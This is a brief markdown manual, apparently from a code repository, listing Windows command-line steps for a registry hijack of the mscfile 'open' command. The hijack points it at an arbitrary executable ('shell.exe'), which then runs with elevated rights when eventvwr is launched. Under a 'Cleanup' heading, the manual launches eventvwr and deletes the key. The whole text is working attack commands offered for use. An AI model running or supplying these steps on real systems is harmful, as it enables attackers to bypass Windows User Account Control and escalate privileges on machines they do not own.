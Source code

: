 # Manual

## 01 - Exploit

```
C:\> reg add "HKCU\SOFTWARE\Classes\mscfile\shell\open\command" /f

C:\> reg add "HKCU\SOFTWARE\Classes\mscfile\shell\open\command" /t REG_SZ /d "C:\path\to\shell.exe" /f
```

## 02 - Cleanup

```
C:\> eventvwr

C:\> reg delete "HKCU\SOFTWARE\Classes\mscfile" /f
```